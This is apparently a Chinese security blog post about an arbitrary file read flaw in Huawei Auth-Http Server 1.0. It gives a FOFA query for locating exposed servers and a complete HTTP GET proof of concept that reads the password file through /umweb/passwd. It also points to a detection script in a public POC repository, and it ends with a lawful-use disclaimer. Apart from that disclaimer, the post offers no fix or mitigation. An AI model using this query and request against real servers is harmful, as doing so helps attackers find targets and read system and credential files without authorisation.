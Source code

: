 #  华为Auth-HTTP服务器任意文件读取漏洞   
安全透视镜  网络安全透视镜   2023-11-28 07:01  
  
# 一、漏洞描述  
  
  
华为Auth-Http Server 1.0存在任意文件读取，攻击者可通过该漏洞读取任意文件。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5vmiaKJOXzjzMbKc83xYO2sbTthHg7cmAECMkpkdaIKVDic11PkezDwWDSqMaTe8fBibxRTE6Ygayxg/640?wx_fmt=png&from=appmsg "")  
  
# 二、网络空间搜索引擎搜索  
  
  
fofa查询  
```
server="Huawei Auth-Http Server 1.0"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5vmiaKJOXzjzMbKc83xYO2sZSuMwRlLej4ickBfF9xl4mBfFsXCbIQVzDiciapPJh8YwNgPcVibTETbfA/640?wx_fmt=png&from=appmsg "")  
  
# 三、漏洞复现  
  
  
读取passwd文件 POC  
```
GET /umweb/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5vmiaKJOXzjzMbKc83xYO2scYMfnj53dz2EmK955DIufBIgDbUZ5F1r5fic7WYeibTdDAFAFcKjtZicQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5vmiaKJOXzjzMbKc83xYO2sUMo85ics6pwgXJuRJG6TBP6uRFTu63z5METbuzEwHFa9E2aN62KAXDw/640?wx_fmt=png&from=appmsg "")  
  
# 四、漏洞检测  
  
  
pocsuite3漏洞检测  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5vmiaKJOXzjzMbKc83xYO2steZD3TMswKSRWnDCG0JCOiaw9vmrAoDibYmp3jloDEib7ibTicDjK8nK0Lw/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞检测脚本已上传免费漏洞库  
  
地址：  
  
https://github.com/Vme18000yuan/FreePOC  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5vmiaKJOXzjzMbKc83xYO2sNPJI0j9aq60LoBcp3ibURTZ0IhehnRjmnpSOeKDWZEpGzhcsCoPckSQ/640?wx_fmt=png&from=appmsg "")  
  
#   
# 免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS51gqsJwIM82Y5RTicXUygDUxQ76EiavrIibm8L0BUzdF6veUR4dQOKJn2iaEFQlNeq0PIPSFXTibx0OZw/640?wx_fmt=png&from=appmsg "")  
  
****  
  
